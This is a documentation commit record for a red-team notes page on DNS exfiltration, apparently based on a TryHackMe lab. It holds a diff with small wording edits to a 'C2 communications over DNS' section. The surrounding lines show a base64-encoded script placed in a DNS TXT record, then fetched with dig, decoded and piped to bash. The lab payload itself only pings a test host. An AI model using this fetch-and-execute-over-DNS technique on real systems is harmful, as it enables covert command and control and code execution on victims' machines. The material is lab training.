

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/exfiltration/dns.md, in a window 1280 px wide and 1400 px high, scrolled down 2355 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
version 0.1

```diff
--- a/source/docs/exfiltration/dns.md
+++ b/source/docs/exfiltration/dns.md
@@ -102,7 +102,7 @@ Clean and restore the received data:
 
 ## C2 communications over DNS
 
-In victim2, create a script.sh in /tmp
+In victim2, create a `script.sh` in `/tmp`:
 
     thm@victim2:~$ cd /tmp/
     thm@victim2:/tmp$ nano script.sh
@@ -117,14 +117,14 @@ Encode the script:
     thm@victim2:~$ cat /tmp/script.sh | base64
     IyEvYmluL2Jhc2ggCnBpbmcgLWMgMSB0ZXN0LnRobS5jb20K
 
-Add it as a `TXT` `DNS` record to the tunnel.com domain using the web interface provided: http://MACHINE_IP/
+Add it as a `TXT` `DNS` record to the `tunnel.com` domain using the web interface provided: http://MACHINE_IP/
 
 Confirm it was added successfully:
 
     thm@victim2:~$ dig +short -t TXT script.tunnel.com
     "IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="
 
-Run the script:
+Run the script (clean using `tr` and deleting any double quotes `"`):
 
     thm@victim2:~$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
     PING test.thm.com (127.0.0.1) 56(84) bytes of data.
```
